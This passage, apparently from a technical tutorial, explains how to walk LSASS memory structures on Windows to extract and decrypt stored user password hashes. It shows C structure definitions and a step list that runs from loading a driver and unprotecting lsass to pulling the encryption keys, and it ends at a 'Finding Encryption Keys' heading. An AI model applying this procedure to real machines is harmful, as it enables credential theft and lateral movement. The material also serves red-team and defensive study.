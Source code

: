 ```c
	// Step 5: advance
	current = node.Flink;
```

This provides an example of just printing out the usernames.  Thats not what we're after though. What we need is the security blob.

## Security Blob

The security blob is contained within the `KIWI_MSV1_0_CREDENTIALS` structure:

```c
typedef struct _KIWI_MSV1_0_CREDENTIALS {
	struct _KIWI_MSV1_0_CREDENTIALS *next;
	DWORD AuthenticationPackageId;
	PKIWI_MSV1_0_PRIMARY_CREDENTIALS PrimaryCredentials;
} KIWI_MSV1_0_CREDENTIALS, *PKIWI_MSV1_0_CREDENTIALS;
```

User hashes are stored within the `PrimaryCredentials` variable which is contained within the `PKIWI_MSV1_0_PRIMARY_CREDENTIALS` structure.


```c
typedef struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS {
	struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS *next;
	ANSI_STRING Primary;
	LSA_UNICODE_STRING Credentials;
} KIWI_MSV1_0_PRIMARY_CREDENTIALS, *PKIWI_MSV1_0_PRIMARY_CREDENTIALS;
```

The encrypted hashes are finally contained within the `LSA_UNICODE_STRING`.

```c
typedef struct _LSA_UNICODE_STRING {
	USHORT Length; // Length of the string in bytes (excluding null terminator)
	USHORT MaximumLength; // Total allocated size in bytes for the buffer
	PWSTR Buffer; // Pointer to the wide-character string
} LSA_UNICODE_STRING, *PLSA_UNICODE_STRING;
```

So to recount our steps so far:
1. Create driver ✔️
2. Load driver ✔️
3. Unprotect lsass ✔️
4. Get lsass process handle ✔️
5. Find lsasrv.dll in lsass memory space ✔️
6. Find `LogonSessionList` pattern match address in lsasrv.dll✔️
7. Find AES/DES/IV Key pattern match address in lsasrv.dll 
8. 9. Extract AES / DES / IV Keys
9. Read through LogonSessionList for encrypted security blobs
10. Decrypt encrypted security blob
11. MONEY!

## Finding Encryption Keys
